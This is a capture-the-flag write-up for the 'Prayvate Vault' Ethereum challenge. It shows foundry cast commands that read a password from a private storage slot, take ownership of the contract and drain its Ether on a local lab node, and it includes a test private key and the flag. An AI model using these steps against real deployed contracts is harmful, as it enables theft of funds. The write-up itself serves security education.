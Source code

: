 # Prayvate Vault Write-up

## TL;DR
The goal of this challenge is to drain the target contract of its balance, this can be achieved by obtaining the vault password, transferring the ownership to ourselves, and then withdrawing all the Ether in the contract.

### 1 - Obtaining the Password
The password is stored in a private state variable in the target contract address, but making a variable `private` does not mean that it cannot be accessed from the outside world. Because of the transparent nature of the blockchain, all data stored within contracts, including private state variables, can be accessed by anyone who has access to the network.
The password will be stored in the contract storge, the storage of a contract is arranged as slots from 0 to 2^256, and because the password is the first state variable declared in the cotract, we will find it at slot number 0.

- We first get our target contract address:
```bash
$cast call 0x0Fd95c39DCD0ef038De7c285B4dB92BD0504742d "getTargetAddress()" --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x0000000000000000000000004bc94316265619348cbc7b791693f2dd2a2eb73d
```
- And then we obtain the vault password using the following command:
```bash
$cast storage 0x4bc94316265619348cbc7b791693f2dd2a2eb73d 0 --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x00000000000000000000000000000000cd8115b7bcd966b5e174868b7d30445d
```
So the password is `0xcd8115b7bcd966b5e174868b7d30445d` in bytes. (Yours will be different)

### 2 - Gaining Ownership
The `changeAccount()` function expects two arguments, so we need to call it with the vault password and our account address in order to transfer the vault's ownership to ourselves.
```bash
$cast send 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "changeAccount(address,bytes16)" 0x9A0125306aDc57A34Bd192DC54CEAA7438EF589F 0xcd8115b7bcd966b5e174868b7d30445d --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b --private-key 0x89281eddf83141d5522b692166ea51b8d125740d6bbf5fbf94374c7b26b1d151
```
```bash
$cast call 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "owner()" --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b
0x0000000000000000000000009a0125306adc57a34bd192dc54ceaa7438ef589f
```
We are `owner` !
### Draining the Balance
The contract's balance is set in the setup contract to 99 Ether, so we will send this amount of ether to our address.
```bash
$cast send 0x4bc94316265619348cbc7b791693f2dd2a2eb73d "safeWithdraw(uint256)" 90 --rpc-url http://localhost:8545/db01b9e4-c96b-4123-9b26-7b743061b69b --private-key 0x89281eddf83141d5522b692166ea51b8d125740d6bbf5fbf94374c7b26b1d151
```
Congrats, you're now rich !

## Flag
`shellmates{pr1v4CY?__0R_PR4Y_tH4t_THeY_w0n7_sEE?}`
